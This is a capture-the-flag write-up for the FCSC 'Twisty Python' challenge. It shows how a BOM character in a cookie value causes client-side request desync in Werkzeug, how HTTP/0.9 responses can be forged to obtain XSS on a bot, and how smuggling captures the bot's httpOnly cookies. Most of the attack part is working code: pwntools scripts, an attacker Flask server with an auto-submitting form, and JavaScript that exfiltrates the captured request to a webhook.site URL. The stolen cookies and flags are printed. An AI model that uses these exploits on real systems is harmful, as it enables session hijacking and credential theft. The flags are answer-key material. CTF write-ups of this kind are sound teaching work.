


# Twisty Python

## Description

```
Come and discover the latest Internet sensation that promises to break all records! In this revolutionary game, you'll guide a growing snake in its quest for apples. It's simple yet addictive: devour as many apples as you can to stretch your snake to astonishing lengths. Are you ready to set new records and become a legend in this twisting adventure?

Note: Because of the way Burp Suite handles responses, it might make sense to use sockets directly for this challenge. Also, due to the remote infrastructure configuration, use only one IP address as output, otherwise your operation may not work.
https://twisty-python.france-cybersecurity-challenge.fr/
```

## Solution

When you download the source code for this challenge, you'll notice a simple flask application that lets you play the snake game and create a leaderboard with it, as well as a bot.

If you pay attention to the bot's source code, you'll notice that it can be supplied with any URL. If we pay attention to the source code, there's no way to trigger a CSRF to store an xss in the bot.

Inside the application, we can see that it's possible to change the color of the frontend, this is done by sending a request to `/api?action=color&color=red` and the backend will set a cookie called "color".

This is a hard challenge so ...




As we control one value of an header in the response (the Set-Cookie one), this mean that if we perform the following curl request :

```sh
$  curl "http:/localhost:8000/api?action=color&color=%ef%bb%bf" -ski
```

We will not have any response from the server because of an error :

```
$ docker logs twisty
[...]
172.26.0.1 - - [13/Apr/2024 15:34:13] "GET /api?action=color&color= HTTP/1.1" 200 -
Error on request:
Traceback (most recent call last):
  File "/usr/lib/python3.11/site-packages/werkzeug/serving.py", line 362, in run_wsgi
    execute(self.server.app)
  File "/usr/lib/python3.11/site-packages/werkzeug/serving.py", line 328, in execute
    write(b"")
  File "/usr/lib/python3.11/site-packages/werkzeug/serving.py", line 266, in write
    self.send_header(key, value)
  File "/usr/lib/python3.11/http/server.py", line 526, in send_header
    ("%s: %s\r\n" % (keyword, value)).encode('latin-1', 'strict'))
UnicodeEncodeError: 'latin-1' codec can't encode character '\ufeff' in position 18: ordinal not in range(256)
```

But if we take a look closer to the issue, we can see that the body of the request that made crash flask is consider has another request :

```sh
$ curl "http:/localhost:8000/api?action=color&color=%ef%bb%bf" -ski -d $'GET / HTTP/1.1\r\n\r\n'
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.11.8
Date: Sat, 13 Apr 2024 15:38:49 GMT
Content-Type: text/plain
```

This can be confirmed by looking at the logs of the application :

```sh
$ docker logs twisty
172.26.0.1 - - [13/Apr/2024 15:38:49] "POST /api?action=color&color= HTTP/1.1" 200 -
Error on request:
Traceback (most recent call last):
  File "/usr/lib/python3.11/site-packages/werkzeug/serving.py", line 362, in run_wsgi
    execute(self.server.app)
  File "/usr/lib/python3.11/site-packages/werkzeug/serving.py", line 328, in execute
    write(b"")
  File "/usr/lib/python3.11/site-packages/werkzeug/serving.py", line 266, in write
    self.send_header(key, value)
  File "/usr/lib/python3.11/http/server.py", line 526, in send_header
    ("%s: %s\r\n" % (keyword, value)).encode('latin-1', 'strict'))
UnicodeEncodeError: 'latin-1' codec can't encode character '\ufeff' in position 18: ordinal not in range(256)
ImmutableMultiDict([])
172.26.0.1 - - [13/Apr/2024 15:38:49] "GET / HTTP/1.1" 200 -
```

This behaviour allows us to perform a request smuggling attack on the application !

Werkzeug is an old web-server and support old HTTP versions such as HTTP/0.9. For an attacker performing request smuggling, the advantage of HTTP/0.9 is that only the body of the response is returned by the web-server, there's no concept of headers.

This explanation comes as a bit of a surprise, but there's another functionality inside the application, that allows a player to store is current score and a name inside a session cookie.

Also, you may find it odd to talk about HTTP/0.9 since no recent browser supports this version of the protocol, but the vulnerability presented above may allow us to use this obsolete version!

This is all the more interesting as the response with the request smuggling payload is incorrect from a browser's point of view:

```py
from pwn import *

unicode_payload = f"""
POST /api?action=color&color=%ef%bb%bf&callback=a HTTP/1.1\r
Host: localhost:8000\r
Connection: Keep-Alive\r
\r"""[1:]

payload = f"""
{unicode_payload}
GET / HTTP/1.1\r
Host: foo\r
\r
"""[1:].encode()
io = remote("localhost", 8000)
io.send(payload)
result = io.recvall()
print(result.decode().replace("\r",""))
```

```
$ python3 script.py
[+] Opening connection to localhost on port 8000: Done
[+] Receiving all data: Done (2.06KB)
[*] Closed connection to localhost port 8000
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.11.8
Date: Sat, 13 Apr 2024 16:27:15 GMT
Content-Type: text/plain
Content-Length: 1
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.11.8
Date: Sat, 13 Apr 2024 16:27:15 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2114
[...]
```

As there is two "Content-Length" header in the response, the page will crash with the error "Multiple Content-Length in response", but, if we perform the second using without the "HTTP/1.1" identifier, we observe that werkzeug identify this as a HTTP/0.9 request :

```py
from pwn import *

unicode_payload = f"""
POST /api?action=color&color=%ef%bb%bf&callback=a HTTP/1.1\r
Host: localhost:8000\r
Connection: Keep-Alive\r
\r"""[1:]

payload = f"""
{unicode_payload}
GET /\r
Host: foo\r
\r
"""[1:].encode()
io = remote("localhost", 8000)
io.send(payload)
result = io.recvall()
print(result.decode().replace("\r",""))
```

```sh
$ python3 script.py
[+] Opening connection to localhost on port 8000: Done
[+] Receiving all data: Done (2.06KB)
[*] Closed connection to localhost port 8000
<!DOCTYPE html>
<html lang="en">
[...]
```

As describe in the RFC of the HTTP protocol, for the 0.9 version, there isn't any header, but this is still not valid for chrome as, there isn't any header.


There is a last endpoint on the application, used to retrieve the current scoreboard of a user by decoding is session. We can use a GET parameter called "raw" to return the response as plain-text, and this is perfect for us. In fact, if we manage to store inside the session a complete HTTP response and use the HTTP/0.9 protocol, we can fake the response and the browser will interpret it.

Inside the flask application, the same key is used to encrypt session informations between users, we can therefore make a legitimate request to the `/api?action=add` endpoint to create a cookie that will store our malicious response.

Let's verify our theory :

```py
from pwn import *
import requests

url = "http://localhost:8000/api?action=add"
json = {"name": "HTTP/1.1 200 OK\u000D\u000AContent-Type: text/html\u000D\u000AContent-Length: 144\u000D\u000A\u000D\u000A", "score": 0}
res = requests.post(url, json=json)
session = res.cookies.get_dict()['session']

unicode_payload = f"""
POST /api?action=color&color=%ef%bb%bf&callback=a HTTP/1.1\r
Host: localhost:8000\r
\r"""[1:]

payload = f"""
{unicode_payload}
GET /api?action=view&raw=1\r
Cookie: session={session};\r
\r
"""[1:].encode()
io = remote("localhost", 8000)
io.send(payload)
result = io.recvall()
print(result.decode().replace("\r",""))
```

```sh
$ python3 script.py
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 144

 -> 0
```

We are now able to arbitrary control a response, and we can perform a classic XSS to leak the cookie of the bot !

Before we can recover our precious flag, we have to found a way to trigger this from a classic webpage. By reading an [article](https://mizu.re/post/abusing-client-side-desync-on-werkzeug) from Kevin Mizu on a similar vulnerability on werkzeug, we can see that we can use a `form` tag using `enctype="text/plain"` to send our malicious request !

So I came up with the following script to trigger the vulnerability and recover the first flag :

```py
import requests
from base64 import b64encode

url = "https://twisty-python.france-cybersecurity-challenge.fr/api?action=add"
json = {"name": "HTTP/1.1 200 OK\u000D\u000AContent-Type: text/html\u000D\u000AContent-Length: 144\u000D\u000A\u000D\u000A", "score": 0}
res = requests.post(url, json=json)
session = res.cookies.get_dict()['session']

payload = f"GET /api?action=view&raw=1\r\nCookie: session={session};\r\n\r\n"
payloadb64 = b64encode(payload.encode()).decode()

from flask import Flask, Response
app = Flask(__name__)

@app.route("/")
def index():
    return f"""<form id="send" method="POST" enctype='text/plain' action="http://127.0.0.1:8000/api?action=color&color=%ef%bb%bf&callback=aaaaaaaaa">
              <input id="payload"/>
              </form>
<script>
document.getElementById('payload').name = atob('{payloadb64}');
document.getElementById('send').submit();
</script>"""

app.run("0.0.0.0", 5000)
```

We store this payload on a web server :

```sh
$ python3 solve.py
 * Serving Flask app 'solve'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://194.163.166.19:5000
Press CTRL+C to quit
5.196.58.160 - - [13/Apr/2024 18:50:43] "GET / HTTP/1.1" 200 -
```

We receive a request on the webhook, and we can read the flag :

```sh
$ echo "ZmxhZ19tZWRpdW09RkNTQ3tlYzBmNGYyY2Q0MTdmMDc4OGVmZDkwOTc2N2IwYzI2OTBmMTFiZWRiNDE4YjJkNzc3M2U2YzlhNjUzN2M3YTI2fQ=="  | base64 -d

flag_medium=FCSC{ec0f4f2cd417f0788efd909767b0c2690f11bedb418b2d7773e6c9a6537c7a26}
```

## Flag

FCSC{ec0f4f2cd417f0788efd909767b0c2690f11bedb418b2d7773e6c9a6537c7a26}

# Twisty Python (Fixed)

## Description

```
Come and discover the latest Internet sensation that promises to break all records! In this revolutionary game, you'll guide a growing snake in its quest for apples. It's simple yet addictive: devour as many apples as you can to stretch your snake to astonishing lengths. Are you ready to set new records and become a legend in this twisting adventure?

Note: Because of the way Burp Suite handles responses, it might make sense to use sockets directly for this challenge. Also, due to the remote infrastructure configuration, use only one IP address as output, otherwise your operation may not work.
https://twisty-python.france-cybersecurity-challenge.fr
```

## Solution

For this challenge, the source code is the same, there's just one thing that changes, the flag is contained in a bot's cookie called `flag_hard` and has the httpOnly flag set to true.

As we are dealing with request smuggling, the theory is to capture a bot request to the web-server. To be able to perform that, the web-server must expose an endpoint that allows to receive data and store (or reflect) it.

If we compare to our case, we meet the following the requirements of this attack. There is one thing to note here, we aren't with a standard case of request smuggling which involves a frontend (proxy) server, a backend server and CL-TE (or others) attacks, we are directly requesting the backend server.

But we have one chance here, we have an XSS on the web-server, so we can perform request smuggling using the XSS, here's a schema to explain what we want to do :


This appears to be quite simple, but we have different problems to solve before performing our attack :
- As the web-server is waiting for data, he will not respond to the request, so the browser will wait (and timeout)
- Werkzeug is always responding with the header `Connection: close`, which tell the browser to not reuse the same TCP session (we will see after why this is a big problem)
- If we manage to have a response from the webserver, has observed before, it will be incorrect.


The two first problems can be solved simultaneously, in fact, has we totally control the second request that is parsed by the web-server, we can add the headers we want. On the client-side, one header is particularly interesting, it's called `Expect`, it tells the web-server that a specific response is expected, in this case, "100-Continue" :

```py
from pwn import *
import requests

url = "http://localhost:8000/api?action=add"
json = {"name": "HTTP/1.1 200 OK\u000D\u000AContent-Type: text/html\u000D\u000AContent-Length: 144\u000D\u000A\u000D\u000A", "score": 0}
res = requests.post(url, json=json)
session = res.cookies.get_dict()['session']

unicode_payload = f"""
POST /api?action=color&color=%ef%bb%bf&callback=a HTTP/1.1\r
Host: localhost:8000\r
\r"""[1:]

payload = f"""
{unicode_payload}
POST /api?action=add HTTP/1.1\r
Content-Type: application/x-www-form-urlencoded\r
Content-Length: 800\r
Expect: 100-Continue\r
\r
"""[1:].encode()
io = remote("localhost", 8000)
io.send(payload)
result = io.recvall(timeout=5)
print(result.decode().replace("\r",""))
```

```sh
$ python3 script.py
[...]
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.11.8
Date: Sun, 14 Apr 2024 11:59:25 GMT
Content-Type: text/plain
Content-Length: 1
HTTP/1.1 100 Continue

HTTP/1.1 100 Continue
```

From the browser's point of view, this answer is perfectly valid, and we solve our two problems :
- The request on the server-side is still waiting for data, but we force werkzeug to answer us with "HTTP/1.1 100 Continue".
- The "Content-Length" header is present only once.

There is a last problem to solve, we must "force" the browser to send our request in the same TCP session, in fact, if in the javascript console we execute our payload and look at the "network" tab :

```js
fetch("/api?action=color&color=%ef%bb%bf&callback=a", {
    method: "POST",
    body: "POST /api?action=add HTTP/1.1\r\nExpect: 100-Continue\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 200\r\n\r\nscore=1&name=",
    mode: 'no-cors',
    credentials: 'include',
    keepalive: true
})
.then((resp) => {
    return resp.text();
})
.then((resp) => {
  fetch("/api",{
    method: "GET",
    credentials: 'include',
    keepalive: true
  })
})
```


We can see that the connectionId is different, this means that the requests were not sent in the same TCP session, that the request that was supposed to be captured was not, and that the malicious POST request is still waiting for data.


Several things can force (or not) Chrome to reuse the same TCP session. Firstly, by default, chrome can only open 6 TCP sessions for a given domain name. Secondly, chrome has two different TCP session pools:
- The pool where credentials are sent
- The pool where credentials are not sent (mainly for loading resources)

On the other hand, chrome is more likely to reuse a TCP session if the request made within it has been completed, i.e. the web server's response was correct, and all the body and headers have been parsed. If we take a look at the example given above, we can see that the header `Content-Length` answered by the server is `1`, but we have more data than this in our response, in fact, he should answer with a value of 25. Last thing is that chrome is more likely to reuse TCP session using the `fetch` API.

But if we take a closer look at our request, we have a parameter called `callback`, which is used by flask to compute the `Content-Length`, so if we put 25 "a", we will have our `Content-Length: 25` answer. Last thing, with the `fetch` API, we have to use `credentials: include` so that chrome will use his pool of TCP session for requests with credentials.

```js
fetch("/api?action=color&color=%ef%bb%bf&callback="+"a".repeat(25), {
    method: "POST",
    body: "POST /api?action=add HTTP/1.1\r\nExpect: 100-Continue\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 200\r\n\r\nscore=1&name=",
    mode: 'no-cors',
    credentials: 'include',
    keepalive: true
})
.then((resp) => {
    return resp.text();
})
.then((resp) => {
  fetch("/api",{
    method: "GET",
    credentials: 'include',
    keepalive: true
  })
})
```

If we look at the network tab:


We succeed to send our request in the same TCP session ! We can verify this by requesting `/api?action=view&raw=1` to see if the second request has been captured :



We will have a last problem here, in fact, in the headers of the client request, the `Origin` has the value of the current URL, but when we perform our first smuggling to trigger the XSS, the URL looks like : `http://127.0.0.1:8000/api?action=color&color=x%ef%bf%bfx&callback=aaaaaaaaa`, the problem here is the `&` character, which is used by web server on POST request to separate arguments. We can quickly solve this problem by executing the following javascript line which will set the current URL to `http://127.0.0.1:8000` :

```js
window.history.pushState(null,null,'http://127.0.0.1:8000/');
```

Let's recap our attack :
- Step 1 : Perform the request smuggling with HTTP/0.9 to trigger an XSS on `http://127.0.0.1:8000`
- Step 2 : Set the URL to `http://127.0.0.1:8000` to avoid problems with `&` character.
- Step 3 : Send a request smuggling which has as body a POST request to `/api?action=add` with: 
  - A `Content-Length` greater than the actual data sent
  - The header `Expect: 100-Continue` to force werkzeug to respond to our request
  - The `callback` parameter containing 25 "a" to have the correct `Content-Length` for the response so that chrome consider the request has fully completed
- Step 4 : Send a request that contains cookies of user (and the flag)
- Step 5 : Perform a request to `/api?action=view&raw=1` to exfiltrate the response to a remote server and recover the flag

We can put everything in a python script :

```py
import requests
from base64 import b64encode

payload = ""
with open("payload.js","rb") as fd_payload:
    data = b64encode(fd_payload.read()).decode()
    payload = f"<!DOCTYPE HTML><head><link rel='shortcut icon' href='data:image/x-icon;,' type='image/x-icon'></head><body><svg onload='eval(atob(\"{data}\"))'></body>0\r\n\r\n"

burp0_url = "https://twisty-python.france-cybersecurity-challenge.fr/api?action=add"

burp0_json={"name": f"HTTP/1.1 200 OK\u000D\u000AContent-Type: text/html\u000D\u000AKeep-Alive: timeout=60, max=100\u000D\u000AConnection: keep-alive\u000D\u000AContent-Length: {len(payload)}\u000D\u000A\u000D\u000A{payload}", "score": 0}
res  =requests.post(burp0_url, json=burp0_json)
session = res.cookies.get_dict()['session']

payload = f"GET /api?action=view&raw=1\r\nCookie: session={session};\r\n\r\n"
payloadb64 = b64encode(payload.encode()).decode()

from flask import Flask, Response, make_response
app = Flask(__name__)

@app.route("/")
def index():
    resp =  make_response(f"""<form id="send" method="POST" enctype='text/plain' action="http://127.0.0.1:8000/api?action=color&color=%ef%bb%bf&callback=aaaaaaaaa">
              <input id="payload"/>
              </form>
<script>
document.getElementById('payload').name = atob('{payloadb64}');
setTimeout(function(){{document.getElementById('send').submit();}},1000);
</script>""")

    return resp

app.run("0.0.0.0", 5000)
```

The `payload.js` file contains the heart of the attack :

```js
window.history.pushState(null,null,'http://127.0.0.1:8000/');
fetch("/api?action=color&color=%ef%bb%bf&callback="+"a".repeat(25), {
    method: "POST",
    body: "POST /api?action=add HTTP/1.1\r\nExpect: 100-Continue\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 200\r\n\r\nscore=1&name=",
    mode: 'no-cors',
    credentials: 'include',
    keepalive: true
})
.then((resp) => {
    return resp.text();
})
.then((resp) => {
  fetch("/api",{
    method: "GET",
    credentials: 'include',
    keepalive: true,
    body: "a="+"a".repeat(100)
  }).then((resp) => {
    fetch("/api?action=view&raw=1",{
      mode: 'no-cors',
      credentials:'include'
    }).then((resp) => {return resp.text()}).then((resp) => {
      fetch("https://webhook.site/dc18c91a-8a2b-498f-b161-443c7a606179",
      {
        method: "POST",
        body: "data="+btoa(resp)
      })
    })
  })
})
```

In the payload, I'm sending a body on the request that I want to leak to be sure that the `Content-Length` that I've specified in the malicious request will not be too large. In fact, if the `Content-Length` is too large, the webserver will still wait for data to complete the malicious POST request.

We execute our webserver :

```sh
$ python3 solve.py
 * Serving Flask app 'solve'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://194.163.166.19:5000
Press CTRL+C to quit
5.196.58.160 - - [13/Apr/2024 18:50:43] "GET / HTTP/1.1" 200 -
```

And we recover the content of the user request :

```sh
$ echo "UE9TVCAvYXBpIEhUVFAvMS4xDQpIb3N0OiAxMjcuMC4wLjE6ODAwMA0KQ29ubmVjdGlvbjoga2VlcC1hbGl2ZQ0KQ29udGVudC1MZW5ndGg6IDMwMA0Kc2VjLWNoLXVhOiAiSGVhZGxlc3NDaHJvbWUiO3Y9IjEyMyIsICJOb3Q6QS1CcmFuZCI7dj0iOCIsICJDaHJvbWl1bSI7dj0iMTIzIg0Kc2VjLWNoLXVhLXBsYXRmb3JtOiAiTGludXgiDQpzZWMtY2gtdWEtbW9iaWxlOiA/MA0KVXNlci1BZ2VudDogTW96aWxsYS81LjAgKFgxMTsgTGludXggeDg2XzY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBIZWFkbGVzc0Nocm9tZS8xMjMuMC42MzEyLjEwNSBTYWZhcmkvNTM3LjM2DQpDb250ZW50LVR5cGU6IHRleHQvcGxhaW47Y2hhcnNldD1VVEYtOA0KQWNjZXB0OiAqLyoNCk9yaWdpbjogaHR0cDovLzEyNy4wLjAuMTo4MDAwDQpTZWMtRmV0Y2gtU2l0ZTogc2FtZS1vcmlnaW4NClNlYy1GZXRjaC1Nb2RlOiBjb3JzDQpTZWMtRmV0Y2gtRGVzdDogZW1wdHkNClJlZmVyZXI6IGh0dHA6Ly8xMjcuMC4wLjE6ODAwMC8NCkFjY2VwdC1FbmNvZGluZzogZ3ppcCwgZGVmbGF0ZSwgYnINCkNvb2tpZTogc2Vzc2lvbj1leUp6WTI5eVpYTWlPbHRkZlEuWmhxNVhBLlpCT3VZdElQWUREOXVYRi12S3VQMll6VE50azsgZmxhZ19tZWRpdW09RkNTQ3tlYzBmNGYyY2Q0MTdmMDc4OGVmZDkwOTc2N2IwYzI2OTBmMTFiZWRiNDE4YjJkNzc3M2U2YzlhNjUzN2M3YTI2fTsgZmxhZ19oYXJkPUZDU0N7YTI3ZDgyMDQ1MDY0NDQ0NWRkYTY3NTdiOGQwMTc5MzQ1NmU2MzA4YTFjMDRiZWJhZjViNDM0NjI1MTI5MTU5ZX0NCg0KYT1hYT1hYT1hYT1hYT1hYT1hYT1hYT1hYT1hYT1hYT1hYT1hYSAtPiAxCg==" | base64 -d

POST /api HTTP/1.1
Host: 127.0.0.1:8000
Connection: keep-alive
Content-Length: 300
sec-ch-ua: "HeadlessChrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/123.0.6312.105 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://127.0.0.1:8000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJzY29yZXMiOltdfQ.Zhq5XA.ZBOuYtIPYDD9uXF-vKuP2YzTNtk; flag_medium=FCSC{ec0f4f2cd417f0788efd909767b0c2690f11bedb418b2d7773e6c9a6537c7a26}; flag_hard=FCSC{a27d820450644445dda6757b8d01793456e6308a1c04bebaf5b434625129159e}

a=aa=aa=aa=aa=aa=aa=aa=aa=aa=aa=aa=aa -> 1
```

## Flag

FCSC{a27d820450644445dda6757b8d01793456e6308a1c04bebaf5b434625129159e}